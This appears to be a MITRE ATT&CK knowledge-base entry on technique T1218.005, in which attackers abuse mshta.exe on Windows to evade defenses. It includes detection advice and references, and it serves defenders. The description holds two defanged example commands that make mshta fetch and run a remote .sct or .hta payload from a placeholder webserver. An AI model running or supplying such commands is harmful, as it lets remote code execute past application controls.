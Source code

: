 ```yaml
---
contributors:
- '@ionstorm'
- Ye Yint Min Thu Htut, Offensive Security Team, DBS Bank
- Ricardo Dias
data_sources:
- 'Process: Process Creation'
- 'File: File Creation'
- 'Command: Command Execution'
- 'Network Traffic: Network Connection Creation'
id: attack-pattern--840a987a-99bd-4a80-a5c9-0cb2baa6cade
mitre_attack_url: https://attack.mitre.org/techniques/T1218/005
name: Mshta
platforms:
- Windows
tactics:
- defense-evasion
title: defense-evasion - Mshta
---
```


## Technical Details

| Attribute | Details |
|-----------|----------|
| **Tactics** | defense-evasion |
| **Platforms** | Windows |
| **Data Sources** | Process: Process Creation, File: File Creation, Command: Command Execution, Network Traffic: Network Connection Creation |
| **Permissions Required** | User |
| **MITRE ATT&CK URL** | [https://attack.mitre.org/techniques/T1218/005](https://attack.mitre.org/techniques/T1218/005) |

# Mshta (attack-pattern--840a987a-99bd-4a80-a5c9-0cb2baa6cade)

## Description
Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)

## Detection
Use process monitoring to monitor the execution and arguments of mshta.exe. Look for mshta.exe executing raw or obfuscated script within the command-line. Compare recent invocations of mshta.exe with prior history of known good arguments and executed .hta files to determine anomalous and potentially adversarial activity. Command arguments used before and after the mshta.exe invocation may also be useful in determining the origin and purpose of the .hta file being executed.

Monitor use of HTA files. If they are not typically used within an environment then execution of them may be suspicious

## External References
- [mitre-attack](https://attack.mitre.org/techniques/T1218/005)
- [Cylance Dust Storm](https://s7d2.scene7.com/is/content/cylance/prod/cylance-web/en-us/resources/knowledge-center/resource-library/reports/Op_Dust_Storm_Report.pdf)
- [Red Canary HTA Abuse Part Deux](https://www.redcanary.com/blog/microsoft-html-application-hta-abuse-part-deux/)
- [FireEye Attacks Leveraging HTA](https://www.fireeye.com/blog/threat-research/2017/04/cve-2017-0199-hta-handler.html)
- [Airbus Security Kovter Analysis](https://airbus-cyber-security.com/fileless-malware-behavioural-analysis-kovter-persistence/)
- [FireEye FIN7 April 2017](https://www.fireeye.com/blog/threat-research/2017/04/fin7-phishing-lnk.html)
- [Wikipedia HTML Application](https://en.wikipedia.org/wiki/HTML_Application)
- [MSDN HTML Applications](https://msdn.microsoft.com/library/ms536471.aspx)
- [LOLBAS Mshta](https://lolbas-project.github.io/lolbas/Binaries/Mshta/)

